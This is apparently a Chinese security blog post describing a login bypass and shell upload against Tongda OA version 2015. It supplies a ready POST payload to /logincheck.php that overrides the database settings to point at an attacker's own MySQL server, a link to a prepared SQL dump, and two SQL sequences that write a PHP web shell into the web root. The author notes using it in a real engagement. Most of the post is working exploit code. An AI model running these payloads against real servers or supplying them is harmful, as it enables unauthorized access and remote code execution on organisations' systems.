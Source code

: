```yaml
---
title: "通达 OA 变量覆盖及 getshell"
date: 2018-08-06T00:00:00+08:00
draft: false
tags: ['cms']
categories: ['web']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


版本 2015, 乌云平台上的漏洞, 正好最近实战也用到了

<!--more-->

# 变量覆盖

`/logincheck.php`

post 数据

`USERNAME=admin&PASSWORD=&MYOA_MASTER_DB[id]=1&MYOA_MASTER_DB[host]=MYSQL_HOST&MYOA_MASTER_DB[user]=MYSQL_USER&MYOA_MASTER_DB[pwd]=MYSQL_PASSWORD&MYOA_MASTER_DB[db]=MYSQL_DATABASE`

mysql 数据库需要自己部署

[TD_OA.sql](http://exp10it-1252109039.cossh.myqcloud.com/2018/08/06/1533560380.sql)

# getshell

后台有 sql 导入功能, 有两种方法, 使用 `into outfile` 或者用 `general_log`

```
update mysql.user set file_priv='Y' where user='root';
flush privileges;
select concat("'",0x3C3F7068702061737365727428245F504F53545B615D29203F3E) into outfile '../webroot/test.php';
update mysql.user set file_priv='N' where user='root';
flush privileges;
```

```
set global general_log = on;
set global general_log_file = '../webroot/test.php';
select '<?php assert($_POST[a]) ?>';
set global general_log = off;
```

保存为 sql 文件然后上传即可